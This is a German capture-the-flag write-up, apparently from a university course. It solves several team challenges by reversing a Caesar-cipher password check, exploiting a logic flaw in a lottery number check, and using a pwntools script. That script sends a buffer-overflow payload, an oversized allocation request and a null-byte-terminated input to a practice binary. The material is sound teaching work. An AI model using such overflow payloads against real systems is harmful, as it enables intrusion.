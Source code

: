 Die Funktion encrypt() verschlüsselt den angegebenen String mit einer Caesar-Verschiebung um 10. Die Funktion encryptDecrypt() verschlüsselt jedes Zeichen eines Strings mit 0x4b. Die Funktion decrypt() verwendet den gleichen Code wie team_03, übergibt jedoch einige zusätzliche Parameter. Auch hier wird eine Caesar-Chiffre implementiert.

Daher können wir das umgekehrte Passwort durch eine Caesar-Verschlüsselung um 10 verschlüsseln und erhalten ds_umkbM_dx4M_E0I_gyxu_S, was die Eingabe für das Passwort ist.

```console
┌──(mindh㉿TT)-[//Desktop]
└─$
Enter the password: ds_umkbM_dx4M_E0I_gyxu_S
4Ole�Flag{Humpty Shuffly BOOO}
## Flag
Flag{Humpty Shuffly BOOO}
```

# Team 5 
Ein dreistufiges CTF, bei dem mehrere Eingaben erforderlich sind, um die Flagge zu erhalten. (Oder man schaut einfach in den Code..)

Stufe 1:
Bufferüberlauf auf zwei Variablen, die "ScoobyDo" ergeben müssen.

Stufe 2:
Malloc muss null zurückgeben, daher muss zu viel Speicher allokiert werden; einfach eine sehr große Zahl eingeben (siehe Skript).

Stufe 3:
Zeichen müssen 2024 ergeben, wenn man die charCodes addiert. Der String muss mit einem Nullbyte enden (oder genau 21 Zeichen lang sein). Wir verwenden 16-mal das Zeichen 'x' (120) und einmal 'h' (104), und erhalten 2024 in unter 21 Zeichen (plus ein Nullbyte).
```python
from pwn import *

pty = process.PTY
p = process("./team_05", stdin=pty, stdout=pty)
# p = remote("tank.informatik.hs-mannheim.de", 3105)
# context.log_level = 'debug'

p.sendlineafter(b":", b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAScoobyDo")
p.sendlineafter(b"!", b"99999999999999999999999")
p.sendlineafter(b"...", b"xxxxxxxxxxxxxxxxh\x00")  # 2024 = 16 * 120 + 104 

# p.recvuntil("FLAG{")
flag = p.recvall().decode()

print(flag)
## Flagge
FLAG{scooby_dooby_doo_where_are_you?}
````
# Team 6 
```python
  for (i = 0; i < 6; i = i + 1) {
    for (inputNum = 0; inputNum < 6; inputNum = inputNum + 1) {
      if (drawnNumbers[i] == *(byte *)((long)&eingabe + (long)inputNum)) {
        correctNumbers = correctNumbers + 1;
      }
    }
  }
```
In dieser Schleife wird nicht überprüft, ob eine Ziffer doppelt in der Eingabe vorkommt. Daher kann man einfach 6-mal dasselbe Zeichen einfügen und mehrmals versuchen, bis die Zahl dabei ist (die dann 6-fach gewertet wird).
